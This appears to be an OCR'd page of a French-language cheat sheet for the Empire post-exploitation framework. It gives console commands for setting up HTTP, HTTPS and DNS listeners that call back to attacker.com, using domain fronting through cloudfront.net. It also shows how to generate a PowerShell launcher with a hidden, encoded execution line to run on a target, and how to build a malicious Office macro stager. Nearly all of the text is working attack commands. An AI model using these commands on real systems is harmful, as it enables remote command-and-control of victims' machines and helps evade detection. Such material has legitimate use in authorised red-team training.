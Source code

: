 ## 🎯 Listeners (Serveurs d'écoute)

### HTTP Listener
```python
# Dans Empire console
uselistener http
set Host https://attacker.com
set Port 443
set DefaultProfile /admin/get.php,/news.php,/login/process.php
execute
```

### HTTPS Listener
```python
uselistener https
set Host https://attacker.com
set Port 443
set CertPath /path/to/cert.pem
set DefaultProfile /admin/get.php,/news.php
execute
```

### DNS Listener
```python
uselistener dns
set Domain attacker.com
set DomainFront cloudfront.net
execute
```

## 🚀 Stagers et Launchers

### PowerShell Launcher
```python
# Génération launcher PowerShell
usestager multi/launcher
set Listener http
set OutFile launcher.ps1
generate

# Exécution sur cible
powershell.exe -NoP -sta -NonI -W Hidden -Enc [BASE64]
```

### Macro Office
```python
# Génération macro Office
usestager windows/macro
set Listener https
generate

# Intégration dans document Office
```
